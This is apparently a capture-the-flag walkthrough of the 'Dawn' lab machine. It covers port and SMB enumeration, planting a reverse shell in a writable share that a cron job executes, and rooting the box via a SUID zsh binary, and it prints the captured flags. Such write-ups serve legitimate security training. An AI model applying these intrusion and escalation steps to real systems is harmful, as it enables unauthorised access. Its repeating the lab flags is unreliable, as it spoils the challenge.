

Nmap reveals four ports open:

```bash
PORT     STATE SERVICE     REASON  VERSION
80/tcp   open  http        syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       syn-ack MySQL 5.5.5-10.3.15-MariaDB-1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.15-MariaDB-1
|   Thread ID: 15
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, Speaks41ProtocolNew, LongColumnFlag, InteractiveClient, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsCompression, ConnectWithDatabase, SupportsLoadDataLocal, ODBCClient, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: NCBaDlv,u+s$T\Re&+F\
|_  Auth Plugin Name: mysql_native_password
Service Info: Host: DAWN
```

Check out smb:
```bash
$ smbmap -H 192.168.122.11
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                    Permissions     Comment
        ----                    -----------     -------
        print$                  NO ACCESS       Printer Drivers
        ITDEPT                  READ, WRITE     PLEASE DO NOT REMOVE THIS SHARE. IN CASE YOU ARE NOT 
												AUTHORIZED TO USETHIS SYSTEM LEAVE IMMEADIATELY.
        IPC$                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```
ITDEPT is nonstandard. List its contents:
```bash
┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/dawn]
└─$ smbmap -H 192.168.122.11 -R 'ITDEPT'
[+] IP: 192.168.122.11:445      Name: 192.168.122.11
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ITDEPT                                                  READ, WRITE
        .\ITDEPT\*
        dr--r--r--                0 Fri Mar  3 13:52:27 2023    .
        dr--r--r--                0 Wed Jul 22 13:19:41 2020    ..
```
There's nothing here, but I can write to it.


Check out the web service on port 80. It's just the standard Apache Ubuntu default page. Fuzz it:
```bash
$ gobuster dir -u http://192.168.122.11/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.122.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/03/03 13:51:24 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 293]
/.htaccess            (Status: 403) [Size: 298]
/.htpasswd            (Status: 403) [Size: 298]
/index.html           (Status: 200) [Size: 791]
/logs                 (Status: 301) [Size: 315] [--> http://192.168.122.11/logs/]
/server-status        (Status: 403) [Size: 302]
Progress: 4523 / 4615 (98.01%)===============================================================
2023/03/03 13:51:43 Finished
```

Checking logs, there are a list of files. All but one I can access: management.log


Examinging it, I see that, periodically, there is a cronjob that is executing two files located in the ITDEPT directory. These files are called web-control and product-control.
```bash
2020/08/12 09:03:02 ESC[31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=938    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=???  PID=937    | ???ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=936    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:03:02 ESC[31;1mCMD: UID=33   PID=940    | /bin/sh -c /home/dawn/ITDEPT/web-control ESC[0m
<SNIP>
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=978    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/web-control ESC[0m
2020/08/12 09:06:01 ESC[31;1mCMD: UID=0    PID=977    | /bin/sh -c chmod 777 /home/dawn/ITDEPT/product-control ESC[0m
```

Since I can write to ITDEPT, I make a reverse shell script and upload it. I set up a netcat listener, then catch the shell as dawn:


```bash
dawn@dawn:~$ whowhoami
dawn
dawn@dawn:~$ id
uid=1000(dawn) gid=1000(dawn) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn@dawn:~$ hostname
dawn
dawn@dawn:~$ hostname -I
192.168.122.11
dawn@dawn:~$ cat local.ttx
cat: local.ttx: No such file or directory
dawn@dawn:~$ cat local.txt
a61f316fdd5373ba6f337d62a3b94eb5
```


Search for SUID binaries:
```bash
dawn@dawn:/tmp$ finfind / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
/home/dawn/ITDEPT
```
`zsh` is listed. Execute it with the `-p` flag to become root:

```bash
dawn@dawn:/tmp$ zsh -p
dawn# cd /root     cd /root
cd /root
dawn# ls           ls
ls
flag.txt  proof.txt
dawn# cat proof.txtcat proof.txt
cat proof.txt
09f5fc4b56fbcb6b77a8ef7920afda20
dawn# whoami       whoami
whoami
root
dawn# id           id
id
uid=1000(dawn) gid=1000(dawn) euid=0(root) groups=1000(dawn),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
dawn# hostname -I  hostname -I
hostname -I
192.168.122.11
```


